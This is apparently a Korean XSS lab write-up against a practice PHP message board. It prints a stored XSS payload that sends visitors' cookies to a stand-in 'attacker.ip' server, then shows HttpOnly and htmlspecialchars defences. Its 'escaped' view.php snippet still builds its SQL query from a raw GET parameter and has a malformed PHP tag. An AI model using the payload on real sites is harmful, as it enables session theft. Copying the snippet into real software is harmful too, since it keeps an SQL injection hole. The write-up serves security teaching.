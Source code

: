 # XSS 모의해킹
 XSS(Cross-Site Scripting) 공격은 악의적인 스크립트를 삽입하여, 해당 웹 사이트의 사용자들이 스크립트를 실행하도록 유도하는 공격입니다.   
 이번 모의해킹에서는 공격자가 악의적인 스크립트를 삽입하여, 해당 웹 사이트에 접속한 사용자들에게 XSS 공격을 수행하는 방법을 다루었습니다.
 
 ## 게시판
 ![게시판 사진](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_board.png)
 ![게시글 보기 사진](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_view.png)
 해당 웹페이지에서는 게시글을 쓸 수 있으며, 게시글을 클릭하면 게시글을 볼 수 있는 화면이 구현되어있습니다.
 
 ## 공격 실습
 ![xss_test](https://github.com/Tree1st/HK/blob/master/webH/image/xss/XSS_test.png)
 
 현재 웹페이지가 XSS 공격에 취약한지 알아보기 위하여 게시글에 `<script>alert(document.cookie)</script>` 를 입력해 봅니다.
 
 ![xss_test2](https://github.com/Tree1st/HK/blob/master/webH/image/xss/XSS_test2.png)
 
 업로드된 게시글을 클릭하면 다음과같이 현재 사용자의 쿠키가 alert로 뜨는것을 확인 할 수 있습니다. 이는 해당 웹페이지가 XSS 공격에 취약하여 공격이 성공하였음을 알 수 있습니다.
 
 ## Stored XSS
 Stored XSS 공격은 공격자가 웹 사이트에 악성 스크립트를 저장해 놓고, 이를 웹 사이트에 접속한 모든 사용자들이 실행하도록 유도하는 공격입니다.
 
 ![xss_stored](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored.png)
 
 게시글에 다음과같이 입력합니다.`<script>document.location="http://attacker.ip/?"+document.cookie;</script>` 해당 스크립트는 이 글을 접속하는 유저의 쿠키와 함께 공격자의 서버로 redirect 시킵니다.
 
 ![xss_stored2](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored2.png)
 
 게시글에 접속하면 공격자의 웹서버로 redirection 되는것을 확인 할 수 있습니다.
 
 ![xss_stored3](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored3.png)
 
 공격자의 웹서버 로그에서 사용자의 쿠키를 확인 할 수 있습니다.

## 방어 기법
 1. 입력값 검증: 모든 입력값에 대해서 적절한 검증을 통해 유효한 값만을 받아들이고, 악성 스크립트 등을 필터링하여 처리합니다.

 2. HTML 특수 문자 이스케이프: 입력값이 출력되는 곳에서 문자열을 안전한 HTML 형식으로 변환합니다.

## 방어 실습
 ### 쿠키 탈취 방어
 ![php.ini](https://github.com/MLTree2/HK/blob/master/webH/image/xss/httponlyphpini.png)
 
 php.ini 파일의 `session.cookie_httponly = true` 설정을 통하여 쿠키의 속성에 HttpOnly 가 설정된다. HttpOnly 속성이 추가된 쿠키는 자바스크립트등과 같은 언어로 쿠키에 접근하는것을 차단하여 쿠키를 탈취하는것을 불가능하게 합니다.
 
 ![editcookie](https://github.com/MLTree2/HK/blob/master/webH/image/xss/httponly_editcookie.png)
 
 EditThisCookie 툴로 쿠키를 보면 HTTP 전용 란에 체크가 된것을 볼 수 있습니다.
 
 ![httponly_test](https://github.com/MLTree2/HK/blob/master/webH/image/xss/httponly_XSS_test.png)
 
 또한 기존의 XSS_Test 게시글에 접속하여도 쿠키가 뜨지 않는것을 확인할 수 있습니다.
 
 ### HTML 이스케이프
 HTML escaping 이란 HTML에서 사용되는 특수문자를 해당 문자의 HTML 엔티티(entity)로 대체되어 HTML 출력에서 스크립트 실행을 방지하는 것을 말합니다. 대표적으로 다음과같이 치환 됩니다.
 | Escape 전 | Escape 후 |
 |-|-|
 | `&` | `&amp;`|
 | `"` | `&quot;` |
 | `'` |  `&#039;` |
 | `<` | `&lt;` |
 | `>` | `&gt;` |
 
 PHP 에서는 `htmlspecialchars()` 함수를 이용하여 HTML 이스케이핑을 할 수 있습니다. 다음은 해당함수를 이용하여 Escaping 을 적용한 view.php 의 일부 입니다. 
 ```php
<?php
include ("connect.php");

$bid=$_GET["bid"];
$result = $con->query("select * from board where bid=".$bid) or die("query error => ".$mysqli->error);
$rs = $result->fetch_object();
$content = htmlspecialchars($rs->content);
 ... 중략 ...
<p>
 <?php echo $content;>
</p>
...
```
![escape_result](https://github.com/MLTree2/HK/blob/master/webH/image/xss/escape_result.png)

게시글에 XSS를 시도한 HTML 코드가 그대로 적혀있으며 HTML로 확인 시 **`<,  >`** 문자열이 **`&lt; , &gt;`** 로 치환된것을 확인할 수 있습니다.

